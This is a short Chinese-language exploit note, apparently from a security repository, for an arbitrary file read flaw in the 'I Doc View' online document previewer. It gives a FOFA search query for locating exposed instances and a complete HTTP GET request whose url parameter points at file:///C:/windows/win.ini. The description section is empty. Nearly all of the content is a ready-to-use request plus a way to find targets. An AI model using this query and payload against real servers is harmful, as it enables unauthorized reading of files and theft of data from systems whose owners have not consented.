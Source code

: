 # DocView在线文档预览任意文件读取



## 1.漏洞描述



## 2.搜索语法



```plain
fofa：title=="在线文档预览 - I Doc View"
```

​    

## 3.漏洞复现



```plain
GET /view/qJvqhFt.json?start=1&size=5&url=file%3A%2F%2F%2FC%3A%2Fwindows%2Fwin.ini&idocv_auth=sapi HTTP/1.1
Host: 127.0.0.1
Pragma: no-cache
Cache-Control: no-cache
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/125.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close
```

![image-20240925210951526](C:\Users\18484\AppData\Roaming\Typora\typora-user-images\image-20240925210951526.png)

